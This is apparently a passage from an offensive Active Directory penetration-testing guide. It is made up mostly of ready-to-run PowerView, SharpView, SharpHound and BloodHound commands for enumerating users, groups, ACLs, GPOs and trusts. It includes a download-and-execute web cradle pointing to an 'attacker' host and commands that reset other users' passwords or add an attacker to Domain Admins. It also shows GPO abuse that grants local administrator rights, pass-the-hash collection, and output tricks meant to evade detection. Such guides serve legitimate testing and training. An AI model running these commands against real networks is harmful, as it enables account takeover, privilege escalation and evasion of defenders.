2.1.3 GPO Functions
| Function | Description |
|---|---|
Get-DomainGPO | Returns all GPOs or a specific GPO in the domain |
Get-DomainGPOLocalGroup | Returns GPOs that modify local group memberships via Restricted Groups or Group Policy Preferences |
Get-DomainGPOUserLocalGroupMapping | Maps users/groups to their effective local group memberships through GPOs |
Get-DomainGPOComputerLocalGroupMapping | Maps computers to local group memberships through GPOs |
2.1.4 Computer Enumeration Functions
| Function | Description |
|---|---|
Get-NetLocalGroup | Enumerate local groups on a remote machine |
Get-NetLocalGroupMember | Enumerate members of a local group on a remote machine |
Get-NetShare | Enumerate shares on a remote machine |
Get-NetSession | Enumerate active sessions on a remote machine |
Get-NetLoggedon | Enumerate logged-on users on a remote machine |
Get-RegLoggedOn | Enumerate logged-on users via registry of remote machine |
Get-NetRDPSession | Enumerate RDP sessions on a remote machine |
Test-AdminAccess | Test if the current user has admin access on a remote machine |
2.1.5 Threaded Meta-Functions
| Function | Description |
|---|---|
Find-DomainUserLocation | Find machines where specific users are logged in (queries sessions across domain computers) |
Find-DomainProcess | Find processes running on remote machines matching criteria |
Find-DomainShare | Find accessible shares across domain computers |
Find-InterestingDomainShareFile | Search share contents for files matching patterns (passwords, configs) |
Find-LocalAdminAccess | Find machines in the domain where the current user has local admin access |
Find-DomainUserEvent | Search domain controller event logs for logon events by specific users |
2.1.6 Domain Trust Functions
| Function | Description |
|---|---|
Get-DomainTrust | Returns all domain trusts for the current or specified domain |
Get-ForestDomain | Returns all domains in the current forest |
Get-ForestGlobalCatalog | Returns all Global Catalog servers in the current forest |
Get-ForestTrust | Returns all forest-level trusts |
Get-DomainForeignUser | Returns users who are in groups outside their domain |
Get-DomainForeignGroupMember | Returns groups with members from outside the domain |
Get-DomainTrustMapping | Maps all reachable domain trust relationships |
Methodology
- Load PowerView into the current session:
Import-Module .\PowerView.ps1 - Alternatively, load PowerView via a web cradle if the file is hosted remotely:
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1') - If PowerShell is constrained, use the compiled SharpView binary instead:
.\SharpView.exe Get-DomainUser -Identity administrator - Verify the tool loaded correctly by pulling basic domain information:
Get-Domain Get-DomainController | Select-Object Name, IPAddress, OSVersion - Locate machines where the current user has local admin access:
Find-LocalAdminAccess -Verbose - Hunt for accessible shares and interesting files across domain computers:
Find-DomainShare Find-InterestingDomainShareFile
2.2 User and Group Enumeration
User enumeration identifies high-value targets, dormant accounts, and accounts with exploitable attributes. PowerView provides granular control over user queries.
2.2.1 Enumerating AD Users
User enumeration identifies high-value targets, dormant accounts, and accounts with exploitable attributes. PowerView provides granular control over user queries.
Key AD User Data Points
# All users with all properties
Get-DomainUser | Select-Object samaccountname, description, memberof, pwdlastset, lastlogon, useraccountcontrol
# Find specific user
Get-DomainUser -Identity jsmith -Properties *
# Users with SPN (Kerberoastable)
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname
# Users with admin count set
Get-DomainUser -AdminCount | Select-Object samaccountname, memberof
# Users with non-empty description (may contain passwords)
Get-DomainUser -LDAPFilter "(description=*)" | Select-Object samaccountname, description
# Disabled accounts
Get-DomainUser -UACFilter ACCOUNTDISABLE
# Accounts that do not require Kerberos pre-authentication (AS-REP Roastable)
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
# Users who can be delegated to (unconstrained)
Get-DomainUser -UACFilter TRUSTED_FOR_DELEGATION
# Users with PASSWD_NOTREQD flag
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountnamePassword Set Times
# Users whose password was set more than 1 year ago
$cutoff = (Get-Date).AddYears(-1)
Get-DomainUser -Properties samaccountname, pwdlastset | Where-Object { $_.pwdlastset -lt $cutoff -and $_.pwdlastset -ne $null } | Sort-Object pwdlastset
# Users who have never logged in
Get-DomainUser -Properties samaccountname, lastlogon | Where-Object { $_.lastlogon -eq $null -or $_.lastlogon -eq 0 }
# Users with password that never expires
Get-DomainUser -UACFilter DONT_EXPIRE_PASSWORD | Select-Object samaccountname, pwdlastset
# Check password policy
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess2.2.2 Enumerating AD Groups
Group membership determines access and privilege. Nested groups often create unintended privilege chains that are invisible without recursive enumeration.
Domain Groups
# All domain groups
Get-DomainGroup | Select-Object samaccountname, grouptype, description | Sort-Object samaccountname
# Find a specific group
Get-DomainGroup -Identity "Domain Admins" -Properties *
# Groups containing "admin" in the name
Get-DomainGroup -Identity "*admin*"
# List all members of Domain Admins
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName, MemberObjectClass
# Recursive membership
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | Select-Object MemberNameProtected Groups
Protected groups trigger the AdminSDHolder mechanism. Members of these groups have their ACLs overwritten every 60 minutes by the SDProp process to match AdminSDHolder's ACL:
# Find all users with adminCount=1 (indicates current or past protected group membership)
Get-DomainUser -AdminCount | Select-Object samaccountname, memberof
# Protected groups: Domain Admins, Enterprise Admins, Schema Admins,
# Administrators, Account Operators, Backup Operators, Server Operators,
# Print Operators, Replicator, Domain ControllersManaged Security Groups
Some groups have a managedBy attribute pointing to a user or group that can modify the group's membership. This is an overlooked privilege escalation path:
# Find groups with a managedBy attribute
Get-DomainGroup -LDAPFilter "(managedBy=*)" | Select-Object samaccountname, managedby
# Check if managedBy grants write-member rights
Get-DomainGroup -Identity "IT Admins" | Select-Object -ExpandProperty managedbyLocal Groups
# Enumerate local groups on a remote machine
Get-NetLocalGroup -ComputerName srv01.corp.local
# Enumerate local administrators on a remote machine
Get-NetLocalGroupMember -ComputerName srv01.corp.local -GroupName "Administrators"
# Find machines where a specific user is local admin
Find-DomainUserLocation -UserIdentity jsmith -CheckAccess
# Find all machines where current user has local admin
Find-LocalAdminAccess -VerbosePulling Date User Added to Group
AD tracks when users are added to groups through replication metadata. This can reveal recently added privileged users:
# Get replication metadata for Domain Admins group membership changes
Get-ADReplicationAttributeMetadata -Object "CN=Domain Admins,CN=Users,DC=corp,DC=local" -Server DC01 -ShowAllLinkedValues | Where-Object { $_.AttributeName -eq "member" } | Select-Object AttributeValue, FirstOriginatingCreateTime, LastOriginatingChangeTime | Sort-Object FirstOriginatingCreateTime -Descending
# PowerView alternative: check the whenChanged attribute
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName, @{N='Added';E={[datetime]::FromFileTime($_.LastLogon)}}Methodology
- Enumerate all domain users with key attributes (descriptions may contain passwords):
Get-DomainUser | Select-Object samaccountname, description, memberof, pwdlastset, lastlogon, useraccountcontrol - Identify Kerberoastable accounts (users with SPNs) and AS-REP Roastable accounts:
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname Get-DomainUser -UACFilter DONT_REQ_PREAUTH - Find users with stale passwords or accounts that never logged in:
$cutoff = (Get-Date).AddYears(-1) Get-DomainUser -Properties samaccountname, pwdlastset | Where-Object { $_.pwdlastset -lt $cutoff -and $_.pwdlastset -ne $null } | Sort-Object pwdlastset Get-DomainUser -Properties samaccountname, lastlogon | Where-Object { $_.lastlogon -eq $null -or $_.lastlogon -eq 0 } - Enumerate privileged group memberships recursively:
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | Select-Object MemberName Get-DomainUser -AdminCount | Select-Object samaccountname, memberof - Check for groups with a managedBy attribute (potential privilege escalation via group membership modification):
Get-DomainGroup -LDAPFilter "(managedBy=*)" | Select-Object samaccountname, managedby - Enumerate local administrators on target machines:
Get-NetLocalGroupMember -ComputerName srv01.corp.local -GroupName "Administrators" Find-LocalAdminAccess -Verbose
2.3 Computer and ACL Enumeration
Computer objects represent domain-joined machines. Their attributes reveal OS versions, delegation settings, and services that create attack surfaces.
2.3.1 Enumerating AD Computers
Computer objects represent domain-joined machines. Their attributes reveal OS versions, delegation settings, and services that create attack surfaces.
Domain Computer Information
# All computers with OS info
Get-DomainComputer | Select-Object dnshostname, operatingsystem, operatingsystemversion | Sort-Object operatingsystem
# Domain controllers
Get-DomainController | Select-Object Name, IPAddress, OSVersion
# Find specific OS versions
Get-DomainComputer -OperatingSystem "*Server 2016*"
Get-DomainComputer -OperatingSystem "*Windows 10*"
# Computers with descriptions (may contain credentials)
Get-DomainComputer -LDAPFilter "(description=*)" | Select-Object dnshostname, descriptionFinding Exploitable Machines
# Machines running old/unsupported operating systems
Get-DomainComputer | Where-Object { $_.operatingsystem -match "2008|2003|XP|Vista|7" } | Select-Object dnshostname, operatingsystem
# Machines with LAPS installed (ms-Mcs-AdmPwd attribute readable)
Get-DomainComputer -LDAPFilter "(ms-Mcs-AdmPwd=*)" | Select-Object dnshostname
# Machines not running with a recent password change (stale accounts)
$cutoff = (Get-Date).AddDays(-90)
Get-DomainComputer -Properties dnshostname, pwdlastset | Where-Object { $_.pwdlastset -lt $cutoff }Delegation on Computers
# Unconstrained delegation (not domain controllers)
Get-DomainComputer -Unconstrained | Where-Object { $_.useraccountcontrol -notmatch "SERVER_TRUST_ACCOUNT" } | Select-Object dnshostname
# Constrained delegation
Get-DomainComputer -TrustedToAuth | Select-Object dnshostname, msds-allowedtodelegateto
# Resource-Based Constrained Delegation
Get-DomainComputer -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" | Select-Object dnshostname2.3.2 Enumerating Domain ACLs
Access Control Lists (ACLs) on AD objects determine who can read, write, or modify them. Misconfigured ACLs are a major source of privilege escalation paths.
Access Control Lists Overview
Every AD object has a security descriptor containing:
- DACL (Discretionary ACL): a list of ACEs that define who can access the object and what operations they can perform
- SACL (System ACL): controls auditing of access attempts
- Owner: the security principal that owns the object and can always modify its DACL
Each ACE specifies a trustee (user/group SID), an access mask (the permission), and whether it is an allow or deny entry. Key abusable permissions include GenericAll, GenericWrite, WriteDacl, WriteOwner, ForceChangePassword, and AddMembers.
Abusable ACL Rights
| Right | Effect | Abuse |
|---|---|---|
| GenericAll | Full control over the object | Reset password, set SPN, modify group membership, write to any attribute |
| GenericWrite | Write to any non-protected attribute | Set SPN (targeted Kerberoasting), modify logon script, write msDS-KeyCredentialLink (Shadow Credentials) |
| WriteDacl | Modify the object's DACL | Grant yourself GenericAll, then abuse as above |
| WriteOwner | Change the object's owner | Take ownership, then grant yourself WriteDacl |
| ForceChangePassword | Reset the target's password without knowing it | Take over an account directly |
| AddMembers (Self) | Add yourself to a group | Add yourself to Domain Admins or other privileged groups |
| AllExtendedRights | All extended rights on the object | Includes ForceChangePassword and DS-Replication-Get-Changes |
Enumerating ACLs with Built-In Cmdlets
# Get the ACL on a specific AD object
(Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=corp,DC=local").Access | Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType
# Check ACL on a specific user
(Get-Acl "AD:\CN=Administrator,CN=Users,DC=corp,DC=local").Access | Where-Object { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner" }Enumerating ACLs with PowerView and SharpView
# Find interesting ACLs (non-default, potentially abusable)
Find-InterestingDomainAcl | Select-Object ObjectDN, ActiveDirectoryRights, IdentityReferenceName
# Get ACL on a specific user
Get-DomainObjectAcl -Identity "administrator" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner|ForceChangePassword" } | Select-Object SecurityIdentifier, ActiveDirectoryRights
# Convert SID to name for readability
Get-DomainObjectAcl -Identity "administrator" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "GenericAll" } | ForEach-Object {
$_ | Add-Member -NotePropertyName "IdentityName" -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier) -PassThru
} | Select-Object IdentityName, ActiveDirectoryRights
# SharpView equivalent
.\SharpView.exe Get-DomainObjectAcl -Identity "administrator" -ResolveGUIDsDCSync Rights Enumeration
DCSync requires two rights on the domain object: DS-Replication-Get-Changes (GUID: 1131f6aa-...) and DS-Replication-Get-Changes-All (GUID: 1131f6ad-...). By default, only Domain Admins, Enterprise Admins, and Domain Controllers have these.
# Find accounts with DCSync rights
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -ResolveGUIDs | Where-Object {
($_.ObjectAceType -match "DS-Replication-Get-Changes") -and
($_.ActiveDirectoryRights -match "ExtendedRight")
} | Select-Object SecurityIdentifier, ObjectAceType | ForEach-Object {
$_ | Add-Member -NotePropertyName "Principal" -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier) -PassThru
}
# SharpView
.\SharpView.exe Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -ResolveGUIDs | findstr /i "replication"Leveraging ACLs for Attacks
# If you have GenericAll on a user: reset their password
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString "NewP@ss123!" -AsPlainText -Force)
# If you have GenericAll on a user: set an SPN for Kerberoasting
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='fake/kerberoast'}
Get-DomainSPNTicket -Identity targetuser
# If you have WriteDacl: grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity targetuser -PrincipalIdentity attackeruser -Rights All
# If you have GenericAll on a group: add yourself
Add-DomainGroupMember -Identity "Domain Admins" -Members "attackeruser"
# If you have WriteOwner: take ownership then WriteDacl
Set-DomainObjectOwner -Identity targetobject -OwnerIdentity attackeruser
Add-DomainObjectAcl -TargetIdentity targetobject -PrincipalIdentity attackeruser -Rights AllMethodology
- Enumerate all domain computers with OS versions to identify legacy or unsupported systems:
Get-DomainComputer | Select-Object dnshostname, operatingsystem, operatingsystemversion | Sort-Object operatingsystem Get-DomainComputer | Where-Object { $_.operatingsystem -match "2008|2003|XP|Vista|7" } | Select-Object dnshostname, operatingsystem - Identify computers configured for unconstrained, constrained, or resource-based constrained delegation:
Get-DomainComputer -Unconstrained | Where-Object { $_.useraccountcontrol -notmatch "SERVER_TRUST_ACCOUNT" } | Select-Object dnshostname Get-DomainComputer -TrustedToAuth | Select-Object dnshostname, msds-allowedtodelegateto Get-DomainComputer -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" | Select-Object dnshostname - Check for LAPS-managed computers where the password attribute is readable:
Get-DomainComputer -LDAPFilter "(ms-Mcs-AdmPwd=*)" | Select-Object dnshostname - Scan for non-default, abusable ACLs across the domain:
Find-InterestingDomainAcl | Select-Object ObjectDN, ActiveDirectoryRights, IdentityReferenceName - Check specific high-value objects for dangerous rights (GenericAll, WriteDacl, WriteOwner, ForceChangePassword):
Get-DomainObjectAcl -Identity "administrator" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner|ForceChangePassword" } | ForEach-Object { $_ | Add-Member -NotePropertyName "IdentityName" -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier) -PassThru } | Select-Object IdentityName, ActiveDirectoryRights - Enumerate accounts with DCSync rights on the domain object:
Get-DomainObjectAcl -SearchBase "DC=corp,DC=local" -ResolveGUIDs | Where-Object { ($_.ObjectAceType -match "DS-Replication-Get-Changes") -and ($_.ActiveDirectoryRights -match "ExtendedRight") } | Select-Object SecurityIdentifier, ObjectAceType | ForEach-Object { $_ | Add-Member -NotePropertyName "Principal" -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier) -PassThru } - If abusable ACLs are found, exploit them (e.g., GenericAll to reset password or set SPN for Kerberoasting):
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString "NewP@ss123!" -AsPlainText -Force) Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='fake/kerberoast'} Get-DomainSPNTicket -Identity targetuser
2.4 GPO and Trust Enumeration
GPOs enforce security settings, software deployment, and script execution across the domain. Abusable GPO permissions allow attackers to modify policies applied to high-value targets.
2.4.1 Enumerating Group Policy Objects (GPOs)
GPOs enforce security settings, software deployment, and script execution across the domain. Abusable GPO permissions allow attackers to modify policies applied to high-value targets.
GPO Abuse Overview
GPO abuse requires write permissions on the GPO object itself or its linked OU/domain. An attacker who can modify a GPO linked to an OU containing Domain Controllers or privileged workstations can achieve code execution in those contexts. Common GPO abuse vectors:
- Immediate Scheduled Task: create a one-time task via GPO Preferences that executes a payload
- Startup/Logon Script: add a script that runs on machine startup or user logon
- Restricted Groups / Group Policy Preferences Groups: add an attacker account to local Administrators via GPO
- Software Installation: deploy a malicious MSI package
Gathering GPO Data
# All GPOs in the domain
Get-DomainGPO | Select-Object DisplayName, Name, gpcfilesyspath
# GPO applied to a specific computer
Get-DomainGPO -ComputerIdentity srv01.corp.local | Select-Object DisplayName
# GPOs linked to a specific OU
Get-DomainOU -Identity "ServiceAccounts" | ForEach-Object { $_.gplink }
# Enumerate what a GPO configures (read the GPO files on SYSVOL)
Get-DomainGPO -Identity "{GPO-GUID}" | Select-Object -ExpandProperty gpcfilesyspath
# Then browse: \\corp.local\SYSVOL\corp.local\Policies\{GUID}\Machine\Preferences\ScheduledTasks\
# SharpGPOAbuse: list exploitable GPOs
.\SharpGPOAbuse.exe --gpo-name "Default Domain Policy" --action listGPO Permissions
# Find GPOs where a non-admin has write permissions
Get-DomainGPO | ForEach-Object {
$gpo = $_
Get-DomainObjectAcl -SearchBase "CN=$($gpo.Name),CN=Policies,CN=System,DC=corp,DC=local" -ResolveGUIDs |
Where-Object { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner|GenericWrite|GenericAll" -and $_.SecurityIdentifier -notmatch "S-1-5-32-544|S-1-5-18|S-1-5-21.*-512|S-1-5-21.*-519" } |
Select-Object @{N='GPO';E={$gpo.DisplayName}}, SecurityIdentifier, ActiveDirectoryRights
}
# Check who can create new GPOs
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=corp,DC=local" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "CreateChild" }Hidden GPO Code Execution Paths
GPOs support several less obvious code execution mechanisms beyond scripts and software deployment:
- Registry settings: set a Run key or Image File Execution Options debugger
- Scheduled Tasks (Preferences): tasks in
Machine\Preferences\ScheduledTasks\ScheduledTasks.xml - Services (Preferences): create or modify a Windows service via
Machine\Preferences\Services\Services.xml - Files (Preferences): copy a file to a target path (e.g., place a DLL for DLL hijacking)
- Environment variables: set variables that influence program behavior
# Using SharpGPOAbuse to add an immediate scheduled task
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "CORP\Domain Admins" --Command "cmd.exe" --Arguments "/c net localgroup administrators attacker /add" --GPOName "Default Domain Policy"
# Using pyGPOAbuse from Linux
python3 pygpoabuse.py 'corp.local/user:Password123' -gpo-id "{GPO-GUID}" -dc-ip 10.10.10.10 -command "cmd.exe /c net localgroup administrators attacker /add"2.4.2 Enumerating AD Trusts
Trust relationships between domains and forests define the boundaries of authentication and authorization. Understanding trust direction, transitivity, and SID filtering is essential for cross-domain attacks.
Trust Types and Properties
| Property | Values | Meaning |
|---|---|---|
| Direction | Inbound, Outbound, Bidirectional | Inbound: they trust us (we can access their resources). Outbound: we trust them. Bidirectional: both. |
| Transitivity | Transitive, Non-transitive | Transitive trusts extend through chains (A trusts B, B trusts C, so A trusts C). Parent-child trusts are always transitive. |
| Type | Parent-Child, Tree-Root, Forest, External, Shortcut, Realm | Parent-child and tree-root are automatic within a forest. Forest and external require manual creation. |
| SID Filtering | Enabled/Disabled | Strips SIDs not from the trusted domain. Enabled by default on forest trusts (blocks ExtraSids). Disabled on intra-forest trusts. |
Enumerating Trust Relationships
# PowerView: enumerate all trusts
Get-DomainTrust
Get-DomainTrust -Domain child.corp.local
# Map all reachable trust relationships
Get-DomainTrustMapping
# Forest-level trusts
Get-ForestTrust
Get-ForestDomain
# nltest (built-in)
nltest /domain_trusts /all_trusts
# AD PowerShell module
Get-ADTrust -Filter *
Get-ADTrust -Filter * | Select-Object Name, Direction, TrustType, IntraForest# From Linux: enumerate trusts with ldapsearch
ldapsearch -x -H ldap://dc01.corp.local -D "user@corp.local" -w 'Password123' -b "CN=System,DC=corp,DC=local" "(objectClass=trustedDomain)" trustPartner trustDirection trustType
# BloodHound.py collects trust data automatically
bloodhound-python -u user -p Password123 -d corp.local -ns 10.10.10.10 -c TrustsAttacking Trust Relationships
Common attacks across trust boundaries:
- Intra-forest (parent-child): ExtraSids attack with a forged Golden Ticket containing the Enterprise Admins SID. SID filtering is not enforced within a forest, making this the primary escalation path from child to parent domain.
- Cross-forest Kerberoasting: if a user in the trusted forest has an SPN, request a TGS ticket across the trust and crack it offline.
- Foreign group membership: users from one domain may be members of privileged groups in another domain. Enumerate with
Get-DomainForeignGroupMember. - Trust account abuse: the trust account password can be extracted from a compromised DC and used to forge inter-realm tickets.
- SID History injection: if SID filtering is misconfigured or disabled on a forest trust, inject a privileged SID into the SID History to gain access across the trust boundary.
# Find foreign group members
Get-DomainForeignGroupMember | Select-Object GroupDomain, GroupName, MemberName, MemberDomain
# Find foreign users
Get-DomainForeignUser | Select-Object UserDomain, UserName, GroupDomain, GroupName
# Enumerate users in a trusted domain with SPNs (cross-forest Kerberoasting)
Get-DomainUser -Domain partner.local -SPN | Select-Object samaccountname, serviceprincipalnameMethodology
- Enumerate all GPOs and note their SYSVOL file paths for manual inspection:
Get-DomainGPO | Select-Object DisplayName, Name, gpcfilesyspath - Identify GPOs where a non-admin principal has write permissions (potential GPO abuse):
Get-DomainGPO | ForEach-Object { $gpo = $_ Get-DomainObjectAcl -SearchBase "CN=$($gpo.Name),CN=Policies,CN=System,DC=corp,DC=local" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner|GenericWrite|GenericAll" -and $_.SecurityIdentifier -notmatch "S-1-5-32-544|S-1-5-18|S-1-5-21.*-512|S-1-5-21.*-519" } | Select-Object @{N='GPO';E={$gpo.DisplayName}}, SecurityIdentifier, ActiveDirectoryRights } - If a writable GPO is found, abuse it with SharpGPOAbuse to add a scheduled task:
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "CORP\Domain Admins" --Command "cmd.exe" --Arguments "/c net localgroup administrators attacker /add" --GPOName "Default Domain Policy" - Enumerate all domain trust relationships and map trust chains:
Get-DomainTrust Get-DomainTrustMapping Get-ForestTrust Get-ForestDomain - Identify foreign group members and users across trust boundaries:
Get-DomainForeignGroupMember | Select-Object GroupDomain, GroupName, MemberName, MemberDomain Get-DomainForeignUser | Select-Object UserDomain, UserName, GroupDomain, GroupName - Check for cross-forest Kerberoastable accounts in trusted domains:
Get-DomainUser -Domain partner.local -SPN | Select-Object samaccountname, serviceprincipalname - From Linux, enumerate trusts via LDAP or BloodHound:
ldapsearch -x -H ldap://dc01.corp.local -D "user@corp.local" -w 'Password123' -b "CN=System,DC=corp,DC=local" "(objectClass=trustedDomain)" trustPartner trustDirection trustType bloodhound-python -u user -p Password123 -d corp.local -ns 10.10.10.10 -c Trusts
3. Active Directory BloodHound
BloodHound uses graph theory to map Active Directory relationships and identify attack paths that would be difficult to find manually. It ingests data collected by SharpHound (Windows) or BloodHound.py (Linux) and visualizes relationships between principals, groups, sessions, and permissions in a Neo4j graph database.
3.1 BloodHound Setup and Overview
BloodHound requires a Neo4j graph database backend and the BloodHound GUI. Both must be installed and configured before importing any data.
3.1.1 BloodHound Setup and Installation
BloodHound requires a Neo4j graph database backend and the BloodHound GUI. Both must be installed and configured before importing any data.
Windows Installation
On Windows, install Neo4j Community Edition and download the latest BloodHound release from GitHub.
# Install Neo4j (requires Java 11+)
# Download from https://neo4j.com/download-center/
# Install as a Windows service
neo4j install-service
neo4j start
# Download BloodHound GUI
# https://github.com/BloodHoundAD/BloodHound/releases
# Extract and run BloodHound.exeLinux Installation
On Kali/Debian, Neo4j and BloodHound can be installed from the package manager or from release binaries.
# Install Neo4j
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable latest' | sudo tee /etc/apt/sources.list.d/neo4j.list
sudo apt update && sudo apt install neo4j
# Start Neo4j
sudo systemctl start neo4j
# Install BloodHound
sudo apt install bloodhound
# Or download from GitHub releasesConfiguring Neo4j and BloodHound GUI
On first launch, Neo4j requires a password change. The default credentials are neo4j:neo4j. Navigate to http://localhost:7474 in a browser to access the Neo4j console and set a new password. Then launch the BloodHound GUI and authenticate with the updated Neo4j credentials.
# Default Neo4j bolt connection
bolt://localhost:7687
# Default web console
http://localhost:7474
# Change default password via cypher
ALTER CURRENT USER SET PASSWORD FROM 'neo4j' TO 'newpassword'Recovering Neo4j Credentials
If Neo4j credentials are lost, reset the authentication store by deleting the auth file and restarting the service.
# Linux: remove auth store
sudo rm /var/lib/neo4j/data/dbms/auth
sudo systemctl restart neo4j
# Password reverts to neo4j:neo4j
# Windows: auth file location
C:\Users\<user>\AppData\Roaming\Neo4j Community Edition\data\dbms\auth3.1.2 BloodHound Overview and Graph Theory
BloodHound models Active Directory as a directed property graph. Every AD object (user, computer, group, domain, OU, GPO) is represented as a node. Relationships between objects (group membership, local admin rights, session data, ACL permissions) are represented as edges. An attack path is a sequence of edges from a controlled principal to a target objective.
Key graph theory concepts relevant to BloodHound:
- Nodes: represent AD principals and objects (users, computers, groups, domains, OUs, GPOs)
- Edges: represent relationships and permissions (MemberOf, AdminTo, HasSession, GenericAll, WriteDacl)
- Paths: ordered sequences of nodes connected by edges. The shortest path between two nodes is the most direct attack route
- Degree: number of edges connected to a node. High-degree nodes (e.g., Domain Admins group) are critical choke points
- Transitive closure: group memberships are transitive. If A is a member of B, and B is a member of C, then A effectively has C's permissions
BloodHound uses the Cypher query language to traverse the graph, which allows analysts to ask questions like "find all paths from Kerberoastable users to Domain Admins" in a single query.
Methodology
- Install Neo4j and BloodHound on Linux:
sudo apt update && sudo apt install neo4j bloodhound - Start the Neo4j service and set a new password (default is neo4j:neo4j):
sudo systemctl start neo4j # Browse to http://localhost:7474 and change password - Launch BloodHound and authenticate with the Neo4j bolt connector:
# Connect to bolt://localhost:7687 with updated credentials bloodhound - If Neo4j credentials are lost, reset the auth store and restart:
sudo rm /var/lib/neo4j/data/dbms/auth sudo systemctl restart neo4j
3.2 Data Collection
SharpHound is the official Windows data collector for BloodHound. It queries LDAP, enumerates sessions, local groups, and ACLs across the domain, then exports the data as JSON files for BloodHound import.
3.2.1 SharpHound Data Collection from Windows
SharpHound is the official Windows data collector for BloodHound. It queries LDAP, enumerates sessions, local groups, and ACLs across the domain, then exports the data as JSON files for BloodHound import.

Basic Enumeration
A default SharpHound collection gathers users, groups, computers, sessions, and local admin data.
# Run SharpHound with default collection
.\SharpHound.exe -c All
# PowerShell module variant
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
# Collect all data and compress output
.\SharpHound.exe -c All --zipfilename bloodhound_output.zipImporting Data into BloodHound
Import the ZIP archive generated by SharpHound into BloodHound via the GUI. Click the upload button (up arrow icon) on the right side, or drag and drop the ZIP file into the BloodHound window. The GUI parses each JSON file and creates nodes and edges in the Neo4j database.
# Output ZIP contains JSON files:
# computers.json, users.json, groups.json, domains.json
# sessions.json, ous.json, gpos.json, containers.jsonSharpHound Options and Collection Methods
SharpHound supports multiple collection methods that can be combined for targeted or comprehensive data gathering.
| Method | Data Collected | Noise Level |
|---|---|---|
| Default | Group memberships, sessions, ACLs, trusts | Moderate |
| All | Everything: Default + local groups, GPO, object props | High |
| DCOnly | LDAP data only (no SMB/RPC to workstations) | Low |
| Session | Session data from remote machines | Moderate |
| LoggedOn | Privileged session data via registry | High (requires admin) |
| ObjectProps | Object properties (OS, lastlogon, description) | Low |
| ACL | ACL/ACE data for all objects | Low |
| GPOLocalGroup | Local group assignments via GPO | Low |
# DCOnly collection (quieter, LDAP only)
.\SharpHound.exe -c DCOnly
# Specific collection methods
.\SharpHound.exe -c Session,LoggedOn
# Target a specific domain
.\SharpHound.exe -c All -d child.corp.local
# Target a specific domain controller
.\SharpHound.exe -c All --domaincontroller dc01.corp.localRandomize and Hide SharpHound Output
To reduce detection, SharpHound supports output obfuscation and randomized file naming.
# Randomize output file name
.\SharpHound.exe -c All --randomfilenames
# Encrypt output ZIP with a password
.\SharpHound.exe -c All --encryptzip --zippassword P@ssw0rd!
# Change output directory
.\SharpHound.exe -c All --outputdirectory C:\TempSession Loop Collection
Session data is volatile: a user's session only appears while they are logged in. SharpHound's loop collection repeatedly gathers session data over a time window to capture sessions that appear and disappear.
# Loop session collection for 2 hours, every 10 minutes
.\SharpHound.exe -c Session --loop --loopDuration 02:00:00 --loopInterval 00:10:00Running from Non-Domain-Joined Systems
SharpHound can run from a system that is not joined to the target domain by using runas /netonly to execute under a domain context.
# Run cmd as a domain user (network logon only)
runas /netonly /user:CORP\jdoe cmd.exe
# In the new cmd window, run SharpHound
.\SharpHound.exe -c All -d corp.local --domaincontroller 10.10.10.1
# Alternatively, use PowerShell with explicit credentials
$cred = Get-Credential
.\SharpHound.exe -c All -d corp.local --ldapusername jdoe --ldappassword P@ss1233.2.2 BloodHound.py Data Collection from Linux
BloodHound.py is a Python-based collector that runs from Linux. It queries LDAP and collects the same data types as SharpHound without requiring a Windows host.
Installation
# Install via pip
pip install bloodhound
# Or clone from GitHub
git clone https://github.com/fox-it/BloodHound.py
cd BloodHound.py
pip install .BloodHound.py Options
| Flag | Description |
|---|---|
-c | Collection method (All, Default, DCOnly, Session, etc.) |
-d | Target domain |
-u | Username |
-p | Password |
-ns | Nameserver (DC IP) |
-dc | Domain controller hostname |
--hashes | NTLM hash (LM:NT format) for pass-the-hash |
--zip | Compress output into a ZIP file |
Using BloodHound.py
# Basic collection with credentials
bloodhound-python -c All -d corp.local -u jdoe -p 'P@ss123' -ns 10.10.10.1
# Pass-the-hash collection
bloodhound-python -c All -d corp.local -u admin -p '' --hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f -ns 10.10.10.1
# DCOnly for stealth
